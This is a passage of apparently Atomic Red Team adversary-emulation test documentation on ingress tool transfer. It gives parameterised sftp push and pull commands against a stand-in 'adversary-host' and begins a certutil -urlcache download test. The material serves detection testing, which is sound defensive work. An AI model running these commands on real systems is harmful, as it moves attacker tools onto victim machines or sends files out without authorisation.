 
```sh
sftp #{username}@#{remote_host}:#{remote_path} <<< $'put #{local_file}'
```






<br/>
<br/>

## Atomic Test #6 - sftp remote file copy (pull)
Utilize sftp to perform a remote file copy (pull)

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 0139dba1-f391-405e-a4f5-f3989f2c88ef





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_host | Remote host to copy from | string | adversary-host|
| local_path | Local path to receive sftp | path | /tmp/victim-files/|
| remote_file | Path of file to copy | path | /tmp/adversary-sftp|
| username | User account to authenticate on remote host | string | adversary|


#### Attack Commands: Run with `sh`! 


```sh
sftp #{username}@#{remote_host}:#{remote_file} #{local_path}
```






<br/>
<br/>

## Atomic Test #7 - certutil download (urlcache)
Use certutil -urlcache argument to download a file from the web. Note - /urlcache also works!

**Supported Platforms:** Windows


**auto_generated_guid:** dd3b61dd-7bbc-48cd-ab51-49ad1a776df0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | URL of file to copy | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt|
| local_path | Local path to place file | path | Atomic-license.txt|
